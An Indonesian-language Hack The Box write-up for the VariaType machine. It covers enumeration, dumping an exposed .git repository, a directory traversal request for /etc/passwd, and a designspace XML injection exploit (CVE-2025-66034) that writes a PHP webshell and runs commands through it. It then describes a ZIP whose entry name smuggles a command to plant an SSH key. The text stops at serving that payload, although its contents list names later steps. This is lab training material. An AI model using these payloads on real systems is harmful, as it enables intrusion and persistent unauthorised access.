# VariaType — HackTheBox Write-up

> **Platform:** Hack The Box
> **Nama Mesin:** VariaType
> **Tingkat Kesulitan:** Medium
> **OS:** Linux
> **Status:** Retired

---

## Daftar Isi

1. [Tentang Mesin](#tentang-mesin)
2. [Koneksi ke HTB](#koneksi-ke-htb)
3. [Enumerasi Nmap](#enumerasi-nmap)
4. [Konfigurasi Host Resolution](#konfigurasi-host-resolution)
5. [Penemuan Git Repository yang Terbuka](#penemuan-git-repository-yang-terbuka)
6. [Ekstraksi Repository Git](#ekstraksi-repository-git)
7. [Analisis Riwayat Git](#analisis-riwayat-git)
8. [Autentikasi dan File Disclosure](#autentikasi-dan-file-disclosure)
9. [Pengembangan Eksploit — CVE-2025-66034](#pengembangan-eksploit--cve-2025-66034)
10. [Remote Code Execution](#remote-code-execution)
11. [Pembuatan SSH Key](#pembuatan-ssh-key)
12. [Persiapan Privilege Escalation](#persiapan-privilege-escalation)
13. [Pengiriman Payload](#pengiriman-payload)
14. [Akses User dan Pengambilan Flag](#akses-user-dan-pengambilan-flag)
15. [Enumerasi Privilege Escalation](#enumerasi-privilege-escalation)
16. [Persiapan Akses Root](#persiapan-akses-root)
17. [Hosting Root Public Key](#hosting-root-public-key)
18. [Privilege Escalation ke Root](#privilege-escalation-ke-root)
19. [Rangkuman Serangan](#rangkuman-serangan)
20. [Pelajaran yang Bisa Dipetik](#pelajaran-yang-bisa-dipetik)

---

## Tentang Mesin

VariaType adalah mesin Linux dengan tingkat kesulitan **Medium** di platform Hack The Box yang menggambarkan bagaimana serangkaian miskonfigurasi yang dirantai bersama, ditambah praktik pengembangan yang tidak aman, bisa berujung pada kompromi sistem secara penuh.

Serangan dimulai dengan **enumerasi Nmap** untuk menemukan port yang terbuka, dilanjutkan dengan pengaturan resolusi host agar aplikasi web dapat diakses dengan benar. Dari sana, ditemukan sebuah **direktori `.git` yang terbuka secara publik**, memungkinkan ekstraksi seluruh repository dan analisis riwayat commit untuk menemukan kredensial yang pernah di-hardcode namun tidak terhapus dari histori.

Menggunakan kredensial tersebut, autentikasi ke portal berhasil dilakukan, mengungkap kerentanan **directory traversal** pada endpoint unduhan file. Fokus kemudian beralih ke **CVE-2025-66034**, sebuah celah Arbitrary File Write melalui XML Injection pada `fontTools.varLib`, yang dieksploitasi untuk menulis PHP webshell ke dalam web root dan memperoleh **Remote Code Execution (RCE)**.

Setelah mendapatkan eksekusi perintah, dilakukan pembuatan SSH key pair, diikuti dengan pengiriman payload ZIP berbahaya yang menyalahgunakan pemrosesan tidak aman dari scheduled task, sehingga berhasil menyuntikkan public key ke direktori `.ssh` milik user `steve`. Akses SSH pun terbuka.

Pada tahap akhir, ditemukan aturan `sudo` yang salah konfigurasi yang mengizinkan eksekusi skrip Python sebagai root. Skrip tersebut dimanfaatkan untuk menulis SSH key root ke `/root/.ssh/authorized_keys`, memberikan **akses penuh sebagai root**.

Secara keseluruhan, mesin ini menyoroti bahaya nyata dari repository yang terbuka, penanganan file yang tidak aman, dan manajemen hak akses yang lemah.


---

## Koneksi ke HTB

Langkah pertama adalah menghubungkan terminal Kali Linux ke jaringan Hack The Box melalui VPN:

```bash
sudo openvpn ~/Downloads/OpenVPN/variatype.ovpn
```





Setelah koneksi VPN aktif, mesin VariaType dinyalakan dan sistem mengalokasikan alamat IP target: **10.129.42.177**.



---

## Enumerasi Nmap

Dengan IP target di tangan, pemindaian Nmap dijalankan untuk mengidentifikasi port yang terbuka beserta layanan yang berjalan di dalamnya:

```bash
nmap -sC -sV -A -O -T4 -oN variaType_nmap.txt 10.129.42.177
```



Hasil pemindaian mengungkap dua port yang aktif:

- **Port 22 (SSH)** — menjalankan OpenSSH 9.2p1 di atas Debian
- **Port 80 (HTTP)** — dilayani oleh nginx 1.22.1, yang langsung melakukan redirect ke `variatype.htb`

Adanya redirect ke domain virtual host mengisyaratkan bahwa nama domain tersebut perlu ditambahkan secara manual ke file `/etc/hosts` agar bisa diakses dengan benar. Sementara SSH disimpan sebagai opsi akses untuk tahap berikutnya, fokus utama diarahkan ke enumerasi web.

---

## Konfigurasi Host Resolution

Karena layanan web melakukan redirect ke domain kustom, entri baru harus ditambahkan ke file resolusi host lokal:

```bash
echo "10.129.42.177 variatype.htb" | sudo tee -a /etc/hosts
```



### Penemuan Subdomain `portal` Menggunakan ffuf

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt \
    -H "Host: FUZZ.variatype.htb" -u http://variatype.htb -mc 200,302,401,403
```



Subdomain `portal.variatype.htb` terdeteksi saat pemindaian subdomain menggunakan ffuf, sehingga ditambahkan juga ke `/etc/hosts`. Dengan konfigurasi ini, interaksi dengan aplikasi web dapat berjalan sebagaimana mestinya.

Setelah resolusi host siap, penelusuran terhadap kedua domain pun dimulai untuk memetakan fungsionalitas yang tersedia.

---

## Penemuan Git Repository yang Terbuka

Saat melakukan enumerasi direktori pada subdomain `portal.variatype.htb` menggunakan feroxbuster, ditemukan sebuah miskonfigurasi kritis:

```bash
feroxbuster -u http://portal.variatype.htb/ \
    -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
    --scan-dir-listings
```



Direktori `.git` dapat diakses secara publik. Konfirmasi dilakukan dengan permintaan langsung:

```bash
curl http://portal.variatype.htb/.git/HEAD
```



Respons yang dikembalikan adalah:

```
ref: refs/heads/master
```

Ini mengonfirmasi bahwa repository Git di server dapat diakses sepenuhnya dari luar — seluruh source code aplikasi, termasuk konfigurasi dan potensi kredensial, berpotensi bisa diambil. Temuan ini dikategorikan sebagai **information disclosure kritis**.

---

## Ekstraksi Repository Git

Setelah memastikan direktori `.git` dapat diakses, tool `git-dumper` digunakan untuk mengotomasi proses pengambilan repository:

```bash
pip install git-dumper
```



```bash
git-dumper http://portal.variatype.htb/.git ./portal-repo
```



Output menampilkan serangkaian respons `200 OK` untuk file-file Git penting seperti `HEAD`, `config`, `index`, dan berbagai object file. Tool secara otomatis menjalankan `git checkout` untuk membangun kembali working tree, memberikan akses penuh ke source code aplikasi.

---

## Analisis Riwayat Git

Dengan repository berhasil diunduh, penelusuran terhadap histori commit dimulai:

```bash
cd portal-repo
git log --oneline
```



Salah satu commit menyebut nama pengguna **gitbot**, yang langsung menarik perhatian. Untuk menemukan commit yang sudah tidak terhubung ke branch aktif, digunakan perintah berikut:

```bash
git fsck --no-reflog --full --unreachable | grep commit
```



Hasilnya mengungkap adanya **unreachable commit**. Commit tersebut kemudian diperiksa secara langsung:

```bash
git show 6f021da6be7086f2595befaa025a83d1de99478b
```



Pesan commit bertuliskan *"remove hardcoded credentials"*, dan diff-nya memperlihatkan kredensial milik user `gitbot` yang pernah tertanam langsung dalam kode. Meski sudah dihapus dari versi terkini, data tersebut tetap bisa diakses melalui histori Git.

---

## Autentikasi dan File Disclosure

Memanfaatkan kredensial `gitbot` yang ditemukan dari riwayat Git, autentikasi ke portal berhasil dilakukan:



Setelah mendapatkan `PHPSESSID`, dilakukan percobaan directory traversal pada endpoint unduhan file:

```bash
curl -s -i -b "PHPSESSID=q4da62f7c63pkeu0026dcrs8r4" \
    "http://portal.variatype.htb/download.php?f=....//....//....//....//....//....//etc/passwd"
```



Server mengembalikan isi file `/etc/passwd` secara lengkap, mengonfirmasi adanya **kerentanan directory traversal**. Dari output yang diperoleh, teridentifikasi user bernama `steve`.

Meski demikian, endpoint `download.php` ini hanya menawarkan akses baca file, sehingga diputuskan untuk mencari vektor serangan yang lebih menjanjikan.

---

## Pengembangan Eksploit — CVE-2025-66034

Setelah menyadari bahwa `download.php` bukan jalur yang optimal, fokus beralih ke **CVE-2025-66034** — sebuah kerentanan Arbitrary File Write melalui XML Injection pada library `fontTools.varLib`.

Langkah pertama adalah membuat dua file font minimal sebagai referensi dalam designspace berbahaya:

```bash
python3 generate_fonts.py
```



File `source-light.ttf` dan `source-regular.ttf` berhasil dibuat. Selanjutnya, file `.designspace` berbahaya dikonstruksi dengan menyematkan PHP webshell melalui CDATA injection, sekaligus menentukan path output ke lokasi yang dapat diakses melalui web:

```xml
<?xml version='1.0' encoding='UTF-8'?>
<designspace format="5.0">
    <axes>
        <!-- XML injection terjadi pada elemen labelname dengan CDATA section -->
        <axis tag="wght" name="Weight" minimum="100" maximum="900" default="400">
            <labelname xml:lang="en"><![CDATA[<?php system($_GET['cmd']); ?>]]]]><![CDATA[>]]></labelname>
            <labelname xml:lang="fr">MEOW2</labelname>
        </axis>
    </axes>
    <axis tag="wght" name="Weight" minimum="100" maximum="900" default="400"/>
    <sources>
        <source filename="source-light.ttf" name="Light">
            <location>
                <dimension name="Weight" xvalue="100"/>
            </location>
        </source>
        <source filename="source-regular.ttf" name="Regular">
            <location>
                <dimension name="Weight" xvalue="400"/>
            </location>
        </source>
    </sources>
    <variable-fonts>
        <variable-font name="MyFont"
            filename="/var/www/portal.variatype.htb/public/files/shell.php">
            <axis-subsets>
                <axis-subset name="Weight"/>
            </axis-subsets>
        </variable-font>
    </variable-fonts>
</designspace>
```

> File ini disimpan sebagai `malicious2.designspace`.

---

## Remote Code Execution

Semua file yang diperlukan — `malicious2.designspace`, `source-light.ttf`, dan `source-regular.ttf` — diunggah ke endpoint pemrosesan font yang rentan:

```bash
curl -X POST "http://variatype.htb/tools/variable-font-generator/process" \
    -F "designspace=@malicious2.designspace" \
    -F "masters=@source-light.ttf" \
    -F "masters=@source-regular.ttf" \
    -i --follow -s
```



Server merespons dengan pesan **"Processing completed"**. Karena designspace mengarahkan output ke dalam web root, verifikasi RCE langsung dilakukan:

```bash
curl -i -b "PHPSESSID=q4da62f7c63pkeu0026dcrs8r4" \
    "http://portal.variatype.htb/files/shell.php?cmd=id" \
    --output hasil_rce.txt
```



**Remote Code Execution (RCE) berhasil diraih.**

---

## Pembuatan SSH Key

Dengan RCE di tangan, langkah berikutnya adalah membangun metode akses yang lebih stabil. Sebuah SSH key pair dibuat untuk user `steve`:

```bash
ssh-keygen -t ed25519 -f steve_key -N "" -C "steve_variatype"
```



Proses ini menghasilkan dua file: `steve_key` (private key) dan `steve_key.pub` (public key) tanpa passphrase. Rencana selanjutnya adalah menyuntikkan public key tersebut ke `~/.ssh/authorized_keys` milik `steve` melalui RCE.

---

## Persiapan Privilege Escalation

Untuk menyuntikkan public key ke direktori `.ssh` milik `steve`, dibuat arsip ZIP berbahaya yang mengeksploitasi kerentanan command injection dalam alur pemrosesan font — yang kemungkinan dijalankan oleh scheduled job:

```bash
python3 make_zip.py
```



Skrip `make_zip.py` menyematkan public key SSH ke dalam nama file entry ZIP menggunakan command substitution. Saat arsip diproses oleh sistem target, perintah tersebut dieksekusi dan public key tersuntikkan ke `authorized_keys` milik `steve`.

---

## Pengiriman Payload

HTTP server sederhana dijalankan secara lokal agar `evil.zip` bisa diunduh oleh target:

```bash
python3 -m http.server 80
```

